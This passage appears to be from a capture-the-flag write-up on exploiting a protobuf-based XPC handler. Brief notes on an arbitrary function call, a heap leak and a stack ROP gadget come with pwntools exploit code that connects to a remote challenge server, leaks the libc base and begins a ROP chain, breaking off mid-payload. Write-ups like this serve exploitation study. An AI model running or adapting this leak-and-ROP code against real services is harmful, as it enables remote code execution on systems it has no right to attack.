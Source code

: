 ```protobuf=
    required int64 conn_id = 1;
    repeated xpc_dictionary_t dict = 2;
}

enum valueType {
    INT64 = 36864;
    UINT64 = 40960;
    STRING = 16384;
    DATA = 20480;
}
```
And we found 'scalar1' and 'scalar2' could cause arbitrary function call.

- Jump to send, send(4,heap,heap,0) will leak a number of data in heap.Because of fork,the address will not change.
- We found that process_name remain on the stack.Use gadget 'ret 0x348' and ROP on it.

```python
from pwn import *
import protocol_pb2

def genPayload(func1,func2,process_name=b'A'*232+p64(0x41F310)):
    xpc = protocol_pb2.XPC()
    xpc.conn_id = 1
    xpc_dic = xpc.dict.add()
    xpc_dic.header = b"XPC!"

    dict_process_name = xpc_dic.data.add()
    dict_process_name.value_type = protocol_pb2.valueType.DATA
    dict_process_name.key = "process_name"
    dict_process_name.value = process_name

    snprintf_plt = 0x0000000000405E00
    elf = ELF("./ipc_handler")
    puts_plt = elf.plt['puts']
    dict_scalar2 = xpc_dic.data.add()
    dict_scalar2.value_type = protocol_pb2.valueType.DATA
    dict_scalar2.key = "scalar2"
    dict_scalar2.value = p64(func1) + cyclic(0x10)


    dict_scalar1 = xpc_dic.data.add()
    dict_scalar1.value_type = protocol_pb2.valueType.DATA
    dict_scalar1.key = "scalar1"
    dict_scalar1.value = p64(func2) + b'a' * 8

    data = xpc.SerializeToString()
    return data

sh = remote("34.146.163.198","10003")
sh.send(genPayload(0x406F39,0x406FD5))
libc = ELF("./libc-2.31.so")
libc.address = u64(sh.recvuntil(b"\x7f")[-6:]+b"\x00\x00")-0x46e57
success(hex(libc.address))
sh.close()

input(">")
sh = remote("34.146.163.198","10003")
pop_rdi = libc.address + 0x0000000000023b72
pop_rsi = libc.address + 0x000000000002604f
pop_rdx_r12 = libc.address + 0x0000000000119241
payload = b'A'*104+p64(pop_rdi)+p64(4)+p64(pop_rsi)+p64(libc.bss(0x800))+p64(pop_rdx_r12)+p64(0x200)+p64(0)
payload += p64(libc.sym['read'])
```